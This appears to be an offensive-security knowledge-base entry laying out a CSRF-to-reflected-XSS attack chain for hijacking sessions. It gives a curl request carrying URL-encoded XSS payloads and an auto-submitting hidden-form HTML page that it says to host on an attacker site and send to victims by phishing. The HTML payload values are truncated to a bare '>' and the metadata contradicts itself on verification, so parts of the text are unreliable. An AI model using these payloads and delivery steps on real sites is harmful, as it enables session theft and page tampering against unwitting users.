

---
tags:
  - csrf
  - xss
  - web
  - session-hijacking
type: attack_chain
tools:
  - '[[tools/Burp-Suite-Professional]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-and-Test-CSRF-and-XSS-in-POST-Endpoint]]'
  - '[[procedures/Create-and-Deliver-CSRF-Proof-of-Concept]]'
step_count: 2
techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T17:27:43.227Z'
description: >-
  A chained attack exploiting CSRF in a POST endpoint to inject XSS payloads,
  enabling JavaScript execution for stealing sessions and modifying pages.
skill_level: intermediate
impact_level: high
id: fecebf0d-fbb7-40e7-b06e-e899001ef1ce
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[JavaScript]]'
---
# CSRF Exploitation Leading to Reflected XSS for Session Hijacking

Multi-stage attack chain demonstrating a complete attack workflow exploiting a CSRF vulnerability in a POST endpoint to inject XSS payloads, resulting in arbitrary JavaScript execution in the victim's browser.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite-Professional]]

### Target Environment

- Web application with POST endpoints handling form data (e.g., building, classroom, course fields)
- Authenticated user session
- No CSRF protection on endpoint

### Initial Access Requirements

- Valid user credentials for the target application
- Ability to intercept and modify HTTP requests
- Network access to the target host (e.g., https://target.com)

## Detailed Attack Procedures

### Step 1: Identify and Test Vulnerable Endpoint
procedure: [[procedures/Identify-and-Test-CSRF-and-XSS-in-POST-Endpoint]]

**Objective**: Discover the CSRF-vulnerable POST endpoint and confirm XSS injection via form parameters.

**Instructions**: Use Burp Suite to intercept legitimate requests to the target endpoint, such as /schedule or similar, and modify parameters like building, classroom, and course with encoded XSS payloads. Send the request and observe if the payload executes on response or subsequent page load.

Execute the test using [[commands/send-csrf-xss-post-request]] (adapted to curl for reproducibility):

```bash
curl -X POST https://target.com/schedule \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "schedule-building=%22%3E%3Cimg+src%3Dx+onerror%3Dalert(document.domain)%3E&schedule-classroom=%22%3E%3Cimg+src%3Dx+onerror%3Dalert(document.domain)%3E&schedule-course=%22%3E%3Cimg+src%3Dx+onerror%3Dalert(document.domain)%3E" \
  -b "session_cookie=value"
```

**Expected Output**: Server accepts the request without CSRF rejection, and on page refresh or response, an alert pops up showing the domain, confirming XSS.

**Success Indicators**:
- No CSRF token validation error
- XSS payload executes (e.g., alert fires)
- Payload reflected or stored without sanitization

### Step 2: Create and Deliver CSRF Proof-of-Concept
procedure: [[procedures/Create-and-Deliver-CSRF-Proof-of-Concept]]

**Objective**: Craft a malicious HTML page to trick authenticated users into submitting the XSS-laden form via CSRF, leading to session hijacking.

**Instructions**: Generate an HTML file with a hidden form pre-filled with the decoded XSS payload. Host it on an attacker-controlled site or deliver via phishing. Include auto-submit JavaScript to force execution without user interaction.

Example HTML (save as poc.html and host):

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="https://target.com/schedule" method="POST" style="display:none;">
  <input type="hidden" name="schedule-building" value=">">
  <input type="hidden" name="schedule-classroom" value=">">
  <input type="hidden" name="schedule-course" value=">">
</form>
<script>document.getElementById('csrf-form').submit();</script>
</body>
</html>
```

Deliver by sending a link to the victim (e.g., via email) while they are authenticated to the target site.

**Expected Output**: Victim's browser submits the form, injecting XSS, which executes JS to access cookies/localStorage and potentially exfiltrate data.

**Success Indicators**:
- Form submission succeeds without user noticing
- Alert or JS execution in victim's browser
- Attacker gains access to session data

## Attack Chain Summary

### Key Achievements

1. Confirmed CSRF absence allowing cross-origin form submissions
2. Injected and executed XSS payloads for JS control
3. Enabled session hijacking and page manipulation for further attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
